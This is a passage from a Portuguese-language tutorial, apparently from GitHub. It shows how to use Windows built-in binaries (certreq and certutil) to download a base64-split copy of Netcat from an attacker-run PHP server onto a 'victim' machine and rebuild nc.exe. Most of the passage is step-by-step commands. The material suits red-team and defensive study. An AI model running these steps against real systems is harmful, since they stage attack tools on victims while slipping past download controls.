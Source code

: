2. Divida-o em tamanhos menores:

```bash 
split -d -n 2 nc.txt part
```

3. Inicie o servidor PHP com o seguinte comando:

> O binário "certreq" utiliza o método POST para a requisição HTTP. Para garantir que o download ocorra sem problemas, é necessário utilizar o servidor PHP, em vez do Python. 
>

```bash
sudo php -S 0.0.0.0:80
```

### Processo de Download com Certreq (Máquina Windows - Vítima)  

Para realizar o download da ferramenta/arquivo disponibilizado nas etapas anteriores abra um cmd ou powershell e siga as etapas abaixo:

1. Faça o download das partes do arquivo texto do Netcat:

```powershell
certreq -post -config http://172.16.192.200/part00 \windows\win.ini part00.txt
```

```powershell
certreq -post -config http://172.16.192.200/part01 \windows\win.ini part01.txt
```

2. Junte as partes do arquivo texto que representam o base64 do Netcat:

```powershell
for %f in (*.txt) do type %f >> output
```

3. Decodifique e restaure o binário do Netcat:

```powershell
certutil -decode output nc.exe
```

## Conclusão

Em suma, o Windows oferece diversas maneiras de realizar o download de arquivos, e as mencionadas acima são apenas algumas delas. Caso deseje explorar ainda mais opções, recomendo visitar o site [LOLBAS](https://lolbas-project.github.io/#/download), onde você encontrará informações detalhadas sobre outras formas de executar downloads de forma eficiente no sistema operacional Windows.